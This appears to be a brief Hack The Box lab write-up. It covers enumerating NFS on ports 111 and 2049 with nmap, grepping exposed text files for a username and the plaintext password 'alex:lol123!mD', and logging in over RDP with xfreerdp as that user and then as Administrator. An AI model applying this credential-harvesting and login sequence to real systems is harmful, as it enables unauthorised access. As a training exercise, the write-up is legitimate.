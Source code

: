 ## Nmap the IP
<img width="857" height="175" alt="image" src="https://github.com/user-attachments/assets/dfc3f390-eaab-4e17-b917-e0d787927d96" />
<img width="708" height="439" alt="image" src="https://github.com/user-attachments/assets/0c1dd19c-91b7-4836-9fc0-4f2c309b3cd8" />

## Identified PORT -- 111 and 2049 for enumeration begginening

```
nmap --script nfs* IP -sV -p111,2049
```

<img width="490" height="82" alt="image" src="https://github.com/user-attachments/assets/3c85f622-f568-42e8-b238-f3cc41abef89" />

<img width="875" height="152" alt="image" src="https://github.com/user-attachments/assets/f4f8dfbf-91cc-4b5f-bd6b-9c3327ed3dd3" />

<img width="567" height="392" alt="image" src="https://github.com/user-attachments/assets/e26c56d4-b9f8-4bb8-bb29-b3f0b5a2e771" />

You will get lots of txt file

enumerate them by

```
grep -i 'htb' *.txt
```

this fill scan all the text file and find the htb content from the txt file

<img width="910" height="74" alt="image" src="https://github.com/user-attachments/assets/bf5ff029-871b-4ef7-a466-83dd670ae29e" />

u will get username and now u have to find password 

```
grep -i 'password' *.txt
```

<img width="598" height="79" alt="image" src="https://github.com/user-attachments/assets/68c5229c-2137-40f4-8a42-f322e8360037" />


now u have password also  `alex:lol123!mD`

### Enumerate with Xfreerdp

```
xfreerdp /v:IP /u:alex /p:’lol123!mD’
```

enumerate this server and u will get password for Administrator 

### login to mssm

```
xfreerdp /v:IP /u:Administrator /p:PASSWORD
```


<img width="852" height="511" alt="image" src="https://github.com/user-attachments/assets/1e94c208-3933-4109-8bbc-6f16cffbcd58" />





